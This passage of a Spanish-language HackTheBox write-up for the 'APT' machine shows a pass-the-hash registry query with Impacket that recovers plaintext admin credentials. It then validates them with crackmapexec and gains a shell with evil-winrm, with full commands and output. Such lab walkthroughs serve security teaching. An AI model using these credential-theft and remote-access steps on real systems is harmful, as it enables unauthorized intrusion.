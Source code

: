 Está relacionado con el título de la página web principal

<img src="/writeups/assets/img/APT-htb/4.png" alt="">

Y consigo credenciales en texto claro

```null
reg.py htb.local/henry.vinson@APT -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName 'HKU\Software\GiganticHostingManagementSystem'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU\Software\GiganticHostingManagementSystem
        UserName        REG_SZ   henry.vinson_adm
        PassWord        REG_SZ   G1#Ny5@2dvht
```

Son válidas por winrm, así que puedo obtener una shell interactiva

```null
crackmapexec winrm APT  -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
SMB         APT             5985   APT              [*] Windows 10.0 Build 14393 (name:APT) (domain:htb.local)
HTTP        APT             5985   APT              [*] http://APT:5985/wsman
WINRM       APT             5985   APT              [+] htb.local\henry.vinson_adm:G1#Ny5@2dvht (Pwn3d!)
```

Y gano acceso al sistema

```null
evil-winrm -i APT -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::250
   IPv6 Address. . . . . . . . . . . : dead:beef::786c:1b92:6f0:da53
   IPv6 Address. . . . . . . . . . . : dead:beef::b885:d62a:d679:573f
   Link-local IPv6 Address . . . . . : fe80::786c:1b92:6f0:da53%5
   IPv4 Address. . . . . . . . . . . : 10.10.10.213
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : dead:beef::1
                                       fe80::250:56ff:feb9:b080%5
                                       10.10.10.2
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> 
```
